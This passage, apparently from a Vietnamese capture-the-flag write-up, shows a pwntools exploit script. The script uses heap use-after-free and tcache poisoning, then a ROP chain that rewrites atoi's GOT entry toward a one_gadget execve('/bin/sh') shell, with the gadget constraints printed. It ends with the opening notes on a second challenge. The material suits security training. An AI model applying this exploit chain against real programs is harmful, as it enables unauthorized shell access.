 ```python
    info(f"saved rbp: {hex(save_rbp)}")
    free()
    edit(b"a" * 16)
    free()
    edit(p64(save_rbp + 0x10))
    add(256)
    input()
    add(256)
    # 0x000000000040125c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
    # 0x0000000000401759: pop rbx; pop rbp; ret;
    """
    0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
"""
    pl = (
        p64(1) * 5
        + p64(0x0000000000401759)
        + p64(0xDCE0)
        + p64(exe.got.atoi + 0x3D)
        + p64(0x000000000040125C)
        + p64(0x0000000000401788)
        + p64(exe.sym.main)
    )

    edit(pl)
    sl(b"6")
    sl(b"/bin/sh\x00")

    interactive()
```



## found memory

- bài này làm mình mất rất nhiều time , có lẽ do làm bên HTB kiệt sức nên đến lúc này không thể nghĩ nổi nữa @@ 

nhìn qua thì thấy code khá rối nên ta sẽ build struct lại cho dễ nhìn , nhìn vào thì thấy allocs có lẽ là 1 mảng struct , struct chứa 2 phần tử là chunk được malloc và size mỗi cái 8 byte, ở ngoài hàm `main` check đoạn này `while ( v3 != (_QWORD *)((char *)&allocs + 1600) );`  , vậy mảng `struct` này gồm 100 phần tử 
